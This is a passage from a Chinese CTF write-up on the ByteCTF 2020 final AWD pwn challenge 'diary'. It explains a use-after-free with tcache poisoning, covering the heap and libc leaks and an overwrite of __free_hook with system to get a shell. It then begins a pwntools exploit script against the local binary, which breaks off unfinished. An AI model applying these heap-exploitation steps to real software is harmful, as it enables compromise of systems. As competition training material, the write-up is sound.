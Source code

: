 load函数使用头插法构建单链表

# 0x02.线下赛 - AWD - PWN

## Day1

### 0x00.diary - Use After Free + tcache poisoning +

[点击下载-diary](/download/bytectf2020/final/awd/day1/diary/diary "点击此处下载原题")

~~ 感悟：这次线下的AWD逆向量巨大，符号表扣光，神必C++看着十分头晕 ~~主要还是我太菜了Or2

最简单的签到题，~~以至于我写完exp之后大家早就都修好了，甚至通防一挂这题就没法拿到shell了，所以基本上也不用修，不过想想似乎还是能够利用任意写在栈上构造ROP以后ORW读flag，但是比赛的时候忙着看后面的题去了~~

大概是以下几个点：

*   delete堆块的时候没有置零存在UAF
*   edit时会输出堆块大小，也就是输出FD，FD指针用来存储堆块大小，可以泄露堆地址和栈基址
*   由于犯了以chunk的FD指针来判断堆块大小的逻辑错误判断，于是delete后再edit可以进行堆块溢出
*   修改__free_hook为system以后释放一个内容为"/bin/sh"的块即可get shell

比赛中踩坑的点：

*   由于FD用于储存堆块大小，利用edit泄露main_arena的时候会破坏BK，需要手动将main_arena + 96输回去
*   同上，由于输入都是从BK开始，故需要堆溢出改一个chunk的FD为"/bin/sh"

比赛时写的exp如下：（稍微有一丶乱…）

```
from pwn import *
from LibcSearcher import *
context.log_level = 'DEBUG'
context.arch = 'amd64'

p = process('./diary')
e = ELF('./diary')
libc = ELF("/lib/x86_64-linux-gnu/libc-2.31.so") 
one_gadget = 0xe6e73

def cmd(index:int):
    p.recvuntil(b'Options')
    p.sendline(str(index).encode())

def new(name, size:int, content):
    cmd(1)
    p.recvuntil(b"Name:")
    p.sendline(name)
    p.recvuntil(b"Size:")
    p.sendline(str(size).encode())
    p.recvuntil(b"Content:")
    p.sendline(content)

def edit(name, content):
    cmd(2)
    p.recvuntil(b"Name:")
    p.sendline(name)
    p.recvuntil(b"bytes:")
    p.sendline(content)

def free(name):
    cmd(3)
    p.recvuntil(b"Name:")
    p.sendline(name)

def guess():
```